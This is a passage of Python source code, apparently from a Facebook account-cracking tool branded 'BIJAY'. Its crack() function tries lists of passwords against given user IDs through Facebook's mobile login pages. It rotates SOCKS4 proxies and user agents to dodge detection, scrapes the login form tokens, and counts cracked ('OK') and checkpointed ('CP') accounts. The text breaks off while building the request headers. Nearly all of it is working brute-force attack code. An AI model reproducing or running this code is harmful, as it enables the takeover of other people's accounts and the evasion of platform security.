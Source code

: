 	print(' [\u001b[36m•\033[1;37m] OK : %s '%(ok))

	print(' [\u001b[36m•\033[1;37m] CP : %s '%(cp))

	linex()

	woi = input(' \u001b[36m>>\033[1;37m ENTER TO BACK')

	exit()

#--------------------[ METODE-B-API ]-----------------#

def crack(idf,pwv):

	global loop,ok,cp

	bo = random.choice([m,k,h,b,u,x])

	sys.stdout.write(f"\r {P}[BIJAY]{P} {P}{loop}{P}/{P}{len(id)}{P} OK{P}[{H}{ok}{P}] [{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),

	sys.stdout.flush()

	ua = random.choice(ugen)

	ua2 = random.choice(ugen2)

	ses = requests.Session()

	for pw in pwv:

		try:

			nip=random.choice(prox)

			proxs= {'http': 'socks4://'+nip}

			ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})

			p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')

			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}

			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])

			koki+=' m_pixel_ratio=2.625; wd=412x756'

			heade={"Host":'m.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://m.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
